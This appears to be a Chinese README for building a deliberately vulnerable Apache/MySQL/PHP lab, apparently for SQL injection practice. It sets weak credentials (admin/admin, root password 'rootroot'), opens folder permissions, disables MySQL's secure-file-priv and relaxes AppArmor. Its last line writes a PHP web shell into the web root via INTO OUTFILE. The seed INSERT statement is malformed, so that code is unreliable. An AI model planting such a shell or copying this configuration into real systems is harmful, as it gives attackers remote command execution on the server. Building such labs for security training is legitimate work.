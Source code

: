 # sql

## 安裝Apache

執行：

$ sudo apt install apache2

檢查Apache是否正常運行：

$ sudo systemctl status apache2


## 安裝MySQL
執行

$ sudo apt install mysql-server

設定MySQL root user的密碼：

sudo mysql_secure_installation

改 root 密碼

ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'rootroot';

### 建db


```
create database  user_db;
use user_db;
```

* 創table item
```
CREATE TABLE `item` (
  `id` int NOT NULL AUTO_INCREMENT,
  `name` varchar(100) NOT NULL,
  `attack` int NOT NULL,
  `defense` int NOT NULL,
  PRIMARY KEY (`id`)
)
```
* item 資料
```
INSERT INTO `item`(`id`, `name`, `attack`, `defense`) VALUES (1,'小李飛刀',100,323),
(`id`, `name`, `attack`, `defense`) VALUES (2,'屠龍刀',200,40),
(`id`, `name`, `attack`, `defense`) VALUES (3,'桃園盾',20,500),
(`id`, `name`, `attack`, `defense`) VALUES (4,'倚天劍',100,100),
(`id`, `name`, `attack`, `defense`) VALUES (5,'晨星虎斧',318,407),
(`id`, `name`, `attack`, `defense`) VALUES (6,'封魔流星破',247,50),
(`id`, `name`, `attack`, `defense`) VALUES (7,'霸虎風魔斬',469,54),
(`id`, `name`, `attack`, `defense`) VALUES (8,'修羅鬼噬爪',464,415),
(`id`, `name`, `attack`, `defense`) VALUES (9,'鬼噬日暮滅',327,401),
(`id`, `name`, `attack`, `defense`) VALUES (10,'洪流鳳火舞',378,485),
(`id`, `name`, `attack`, `defense`) VALUES (100,'彥宇大悲咒',2000,0);
```

* 創table user_table

```
CREATE TABLE `user_table` (
  `user_id` int NOT NULL AUTO_INCREMENT,
  `user_name` varchar(40) NOT NULL,
  `user_password` varchar(40) NOT NULL,
  `user_note` varchar(40) NOT NULL,
  PRIMARY KEY (`user_id`)
)
```

* user_table 資料
```

INSERT INTO `user_table`(`user_id`, `user_name`, `user_password`, `user_note`) VALUES(1,'admin','admin','root')
```

## php

```
sudo apt install php libapache2-mod-php php-mysql
```

## 下載 html.zip

放到 /var/www/html

利用  nautilus 改

sql 資料夾 
Owner: www-data   C&D
Group: www-data   C&D
other:            C&D

upfiles 資料夾 
Owner: mysql   C&D
Group: mysql   C&D
other:         C&D

修改outfile問題

SHOW GLOBAL VARIABLES LIKE '%secure%';
sudo find /* -name my.cnf
secure-file-priv = "/"


sudo nano /etc/apparmor.d/local/usr.sbin.mysqld 

/var/www/html/upfiles/ r,
/var/www/html/upfiles/** rw,

sudo apparmor_parser -r /etc/apparmor.d/usr.sbin.mysqld 

測試outfile
select 1,2,3,"<?php echo shell_exec($_GET['cmd']) ?>"  from item into outfile "/var/www/html/upfiles/shell.php";
